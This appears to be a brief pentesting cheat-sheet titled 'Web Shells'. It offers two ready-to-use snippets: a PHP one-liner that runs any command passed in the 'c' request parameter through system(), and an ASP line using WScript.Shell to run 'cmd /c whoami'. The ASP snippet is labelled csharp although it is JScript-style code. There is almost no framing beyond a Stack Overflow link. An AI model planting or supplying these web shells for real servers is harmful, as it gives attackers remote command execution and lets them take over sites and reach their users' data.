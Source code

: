 # Web Shells




## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```




## ASP

```csharp
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())
```
